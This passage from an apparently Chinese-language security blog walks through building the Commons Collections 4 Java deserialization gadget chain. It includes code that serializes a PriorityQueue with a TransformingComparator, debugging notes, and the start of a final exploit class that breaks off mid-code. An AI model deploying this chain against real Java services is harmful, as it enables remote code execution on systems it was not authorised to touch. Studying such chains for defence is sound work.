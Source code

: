 ```java
        Field comparatorField = PriorityQueue.class.getDeclaredField("comparator");
        comparatorField.setAccessible(true);
        comparatorField.set(priorityQueue,transformingComparator);
        serialize(priorityQueue);
    }

    public static void serialize(Object o) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("abc.ser.bin"));
        oos.writeObject(o);
    }

    public static void unserialize(String filePath) throws Exception{
        ObjectInputStream ins = new ObjectInputStream(new FileInputStream(filePath));
        ins.readObject();
    }
}
```

执行后什么也没有发生，调试进去看一下。heapify 中遍历时先将 i 右移一位，然后判断是否大于等于零。当前 size = 0 ，所以不能进入 siftDown。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640155874724-e24a2a15-c119-44ac-968f-b938de90d14c.png)

也就是说我们在序列化前，还需要往优先队列中插入至少两个值。

```java
        priorityQueue.add("1");
        priorityQueue.add("2");
```

再次调试，先不执行反序列化，发现也能够弹出计算器。发现 add 函数中调用 offer 函数。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640156091245-c6332b2a-8ec5-46b7-bf45-0c5128458348.png)

由于 size > 0 ，offer 函数中也会调用 siftUp。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640156109915-4e536178-f7f2-4d83-9284-984e3fd6fa03.png)

siftUp 函数中，如果存在 comparator ，就调用 siftUpUsingComparator，也就会走完利用链。

![img](http://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/1640156145634-435b00d8-d730-4fea-a4d4-11329add813b.png)

我们在序列化的时候当然不需要执行利用链，因此可以在 add 前将 comparator 置为 null，再在序列化前将 comparator 置为 transformingComparator。

最终 exp:

```java
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC4 {
    public static void main(String[] args) throws Exception{
        TestTransformingComparator();
        unserialize("abc.ser.bin");
    }

    public static void TestTransformingComparator() throws Exception{
        ChainedTransformer chainedTransformer = new ChainedTransformer(
                new ConstantTransformer(
```